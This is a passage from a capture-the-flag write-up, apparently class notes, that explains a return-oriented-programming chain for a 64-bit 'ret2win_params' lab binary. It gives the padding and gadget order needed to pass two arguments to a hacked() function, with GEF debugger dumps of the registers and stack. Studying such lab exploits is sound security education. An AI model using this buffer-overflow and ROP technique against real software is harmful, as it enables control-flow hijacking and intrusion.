 Here we need to pass two params to `hacked()` so we need to push them onto the stack before calling it right.
When we fill the buffer, we go from low adresses to higher addresses.

Let's say we wanna call a function with a specific value: we first fill the necessary padding, then we fill in the value we want, and then the address of the function we wanna call with this value.
Because on the stack, RSP will drop on lower address the padding, then the value, then the function address, and RIP will follow the same order when executing.

So here, we need to fill in data into the program in this order: 
1. the padding with 24 A's
2. the 'pop rdi; ret;' gadget and add extra zeroes to fill the whole 64 bits
3. the value to pop in RDI
4. the `pop rsi; pop r15; ret` gadget (`pop rsi; ret;` alone didnt exist)
5. the value the will be popped in RSI and right after the value pop in r15
6. the address of hacked

When exiting `register_name()` we have a stack that looks like this:

```bash
────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x26              
$rbx   : 0x00007fffffffdc68  →  0x00007fffffffdff1  →  "/home/kali/secu_classes_ctf/classes/cryptocat_bina[...]"
$rcx   : 0x0               
$rdx   : 0x0               
$rsp   : 0x00007fffffffdb48  →  0x000000000040124b  →  <__libc_csu_init+005b> pop rdi
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00000000004052a0  →  0x6572656874206948 ("Hi there"?)
$rdi   : 0x00007fffffffd950  →  0x00007fffffffd980  →  0x6572656874206948 ("Hi there"?)
$rip   : 0x00000000004011d6  →  <register_name+0046> ret 
$r8    : 0x73              
$r9    : 0x1               
$r10   : 0x0               
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffdc78  →  0x00007fffffffe064  →  "COLORFGBG=15;0"
$r14   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2e0  →  0x0000000000000000
$r15   : 0x0               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdb48│+0x0000: 0x000000000040124b  →  <__libc_csu_init+005b> pop rdi        ← $rsp
0x00007fffffffdb50│+0x0008: 0xdeadbeefdeadbeef
0x00007fffffffdb58│+0x0010: 0x0000000000401249  →  <__libc_csu_init+0059> pop rsi
0x00007fffffffdb60│+0x0018: 0xc0debabec0debabe
0x00007fffffffdb68│+0x0020: 0x0000000000000000
0x00007fffffffdb70│+0x0028: 0x0000000000401142  →  <hacked+0000> push rbp
0x00007fffffffdb78│+0x0030: 0x00007fffffffdc00  →  0x00000000004011d7  →  <main+0000> push rbp
0x00007fffffffdb80│+0x0038: 0x00007fffffffdc68  →  0x00007fffffffdff1  →  "/home/kali/secu_classes_ctf/classes/cryptocat_bina[...]"
──────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4011cf <register_name+003f> call   0x401040 <printf@plt>
     0x4011d4 <register_name+0044> nop    
     0x4011d5 <register_name+0045> leave  
●→   0x4011d6 <register_name+0046> ret    
   ↳    0x40124b <__libc_csu_init+005b> pop    rdi
        0x40124c <__libc_csu_init+005c> ret    
        0x40124d                  nop    DWORD PTR [rax]
        0x401250 <__libc_csu_fini+0000> ret    
        0x401251                  add    BYTE PTR [rax], al
        0x401253                  add    BYTE PTR [rax-0x7d], cl
──────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "ret2win_params", stopped 0x4011d6 in register_name (), reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4011d6 → register_name()
[#1] 0x40124b → __libc_csu_init()
[#2] 0x401249 → __libc_csu_init()
[#3] 0x401142 → frame_dummy()
[#4] 0x7fffffffdc00 → xlat BYTE PTR ds:[rbx]
[#5] 0x7fffffffdc68 → int1 
```
And then calling `hacked()` our stack looks like this:
```bash
────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x26              
$rbx   : 0x00007fffffffdc68  →  0x00007fffffffdff1  →  "/home/kali/secu_classes_ctf/classes/cryptocat_bina[...]"
$rcx   : 0x0               
$rdx   : 0x0               
$rsp   : 0x00007fffffffdb70  →  0x0000000000401142  →  <hacked+0000> push rbp
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0xc0debabec0debabe
$rdi   : 0xdeadbeefdeadbeef
$rip   : 0x000000000040124c  →  <__libc_csu_init+005c> ret 
$r8    : 0x73              
$r9    : 0x1               
$r10   : 0x0               
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffdc78  →  0x00007fffffffe064  →  "COLORFGBG=15;0"
$r14   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2e0  →  0x0000000000000000
$r15   : 0x0               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdb70│+0x0000: 0x0000000000401142  →  <hacked+0000> push rbp        ← $rsp
0x00007fffffffdb78│+0x0008: 0x00007fffffffdc00  →  0x00000000004011d7  →  <main+0000> push rbp
0x00007fffffffdb80│+0x0010: 0x00007fffffffdc68  →  0x00007fffffffdff1  →  "/home/kali/secu_classes_ctf/classes/cryptocat_bina[...]"
0x00007fffffffdb88│+0x0018: 0x75eab2ba6757f462
0x00007fffffffdb90│+0x0020: 0x0000000000000000
0x00007fffffffdb98│+0x0028: 0x00007fffffffdc78  →  0x00007fffffffe064  →  "COLORFGBG=15;0"
0x00007fffffffdba0│+0x0030: 0x00007ffff7ffd000  →  0x00007ffff7ffe2e0  →  0x0000000000000000
0x00007fffffffdba8│+0x0038: 0x0000000000000000
──────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x401246 <__libc_csu_init+0056> pop    r13
     0x401248 <__libc_csu_init+0058> pop    r14
     0x40124a <__libc_csu_init+005a> pop    r15
 →   0x40124c <__libc_csu_init+005c> ret    
   ↳    0x401142 <hacked+0000>    push   rbp
        0x401143 <hacked+0001>    mov    rbp, rsp
        0x401146 <hacked+0004>    sub    rsp, 0x10
        0x40114a <hacked+0008>    mov    QWORD PTR [rbp-0x8], rdi
        0x40114e <hacked+000c>    mov    QWORD PTR [rbp-0x10], rsi
        0x401152 <hacked+0010>    movabs rax, 0xdeadbeefdeadbeef
──────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "ret2win_params", stopped 0x40124c in __libc_csu_init (), reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40124c → __libc_csu_init()
[#1] 0x401142 → frame_dummy()
[#2] 0x7fffffffdc00 → xlat BYTE PTR ds:[rbx]
[#3] 0x7fffffffdc68 → int1 
```

We're good :)
